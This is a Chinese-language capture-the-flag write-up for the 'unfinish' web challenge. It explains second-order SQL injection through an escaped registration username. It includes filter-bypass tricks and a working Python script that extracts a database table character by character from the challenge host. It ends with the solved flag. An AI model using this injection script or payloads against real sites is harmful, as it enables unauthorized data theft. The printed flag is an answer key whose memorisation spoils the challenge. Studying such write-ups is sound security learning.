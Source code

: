 # unfinish

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c3c9c12c-ce2f-48bb-a781-78fba4695a94_2)

突然发现我对sql一窍不通。

进来是一个登陆界面，疯狂猜闭合无果。看了[wp](https://www.cnblogs.com/zhengna/p/13595290.html)才知道注入点不在这，需要用御剑这类扫描工具扫描网页，得知还有个register.php。这题的关键在于知道注入点是[二次注入](https://zhuanlan.zhihu.com/p/39917830)。文章里讲得很清楚了，放到这道题里来看就是后台代码在注册时使用了转义之类的函数，比如addslashes，会在类似'"这种特殊字符前面添加\符号进行转义。因此在注册时不会有任何问题。

问题在于addslashes函数在当时进行转义后，插入数据库的还是原来的恶意数据。比如' select database() #这个payload，经过addslashes转义后得到\' select database() #(不太确定#会不会被转义，意会一下)，那注册时没啥问题。但是后期读取用户名时得到的却是' select database() #，单引号会起作用，形成二次注入。

联系这道题。先注册一个test用户，登录时输入邮箱和密码。登陆成功后可以找到用户名。如果我们在用户名上动点手脚，使登陆后显示的用户名是数据库里我们想要的数据，flag不就可以出来了吗？注册界面很有可能使用了addslashes进行转义，所以注册时不会报错；但是插入用户名时直接使用了恶意数据，导致二次注入。

可以开始想payload了。先在注册界面测试一下有没有过滤。经测试information，逗号(,)等比较重要的常用项都被过滤了。substr需要逗号，不过可以用from to替代，参考这篇[文章](https://www.jianshu.com/p/d10785d22db2)。information是获取表名的必须项，被过滤就没办法了，可以猜表名，一般是flag。

```python
import requests
def getFlag():
    flag = ''
    for i in range(40):
        data_flag = {
            'username':"ascii(substr((select * from flag) from "+str(i+1)+" for 1))+'",
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        requests.post("http://61.147.171.105:50915//register.php",data_flag)
        login_data={
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        response=requests.post("http://61.147.171.105:50915//login.php",login_data)
        html=response.text
        username=html.split('</span>')[0][-20:].strip()
        if int(username)==0:
            break
        flag+=chr(int(username))
    print(flag)
getFlag()
```

数据库不用看了，表名没法知道，那就直接搞flag吧。有两种方法可以考虑。一种是像上面这样一次猜一个字符，第二种是select * from flag后将内容二次编码为hex，因为一次编码hex中有字母，而sql遇见字母后会截断，两次hex就不会有字母了。还要把二次hex的内容以12的长度使用substr进行分割，因为超过12就会用科学计数法表示。

- ### Flag
  > flag{2494e4bf06734c39be2e1626f757ba4c}